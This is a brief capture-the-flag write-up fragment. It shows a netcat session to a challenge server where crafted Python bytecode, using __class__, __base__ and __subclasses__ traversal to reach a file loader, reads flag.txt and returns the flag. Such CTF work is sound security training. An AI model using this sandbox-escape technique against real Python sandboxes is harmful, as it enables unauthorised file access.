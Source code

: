 ```bash
~/tmp/lactf $ nc lac.tf 31130
consts: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,flag.txt
names: __class__,__base__,__subclasses__,get_data
code: 64006d006d016d02830064001e000200010019006d036401640183025300
here goes!
b'flag{maybe i should_only_allow_nops_next_time}\n'
```

**Flag:** `flag{maybe_i_should_only_allow_nops_next_time}`